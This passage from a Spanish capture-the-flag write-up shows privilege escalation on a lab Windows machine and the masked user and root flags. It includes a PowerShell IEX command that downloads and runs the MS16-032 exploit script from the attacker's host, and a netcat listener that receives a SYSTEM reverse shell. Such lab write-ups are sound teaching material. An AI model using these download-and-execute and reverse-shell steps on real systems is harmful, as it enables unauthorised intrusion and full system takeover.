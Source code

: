 ```sh
❯ rlwrap nc -lvnp 2222
listening on [any] 2222 ...

```
<br>
5 - Desde la máquina víctima hacemos una petición de descarga y ejecución de Invoke-MS16023.ps1 el cual lanzará otra petición a revshell.ps1 pero esta vez como nt authority system entablándonos la conexión.

```powershell
C:\Users\kostas\Desktop>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8000/Invoke-MS16032.ps1')"
     __ __ ___ ___   ___     ___ ___ ___ 
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|
                                        
                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!

```
<br>
6 - Recibimos la conexión:

```bash
❯ rlwrap nc -lvnp 2222
listening on [any] 2222 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.8] 49168
whoami
nt authority\system
PS C:\Users\kostas\Desktop> 

```
¡Somos nt authority\system!

## FLAGS

<h3>User.txt</h3>

```bash
C:\Users\kostas\Desktop> type user.txt.txt
d0c3xxxxxxxxxxxxxxxxxxxxxxxxxxxx

```
<h3>Root.txt</h3>

```bash
C:\Users\Administrator\Desktop>type root.txt
51edxxxxxxxxxxxxxxxxxxxxxxxxxxxx

```
## CONOCIMIENTOS OBTENIDOS

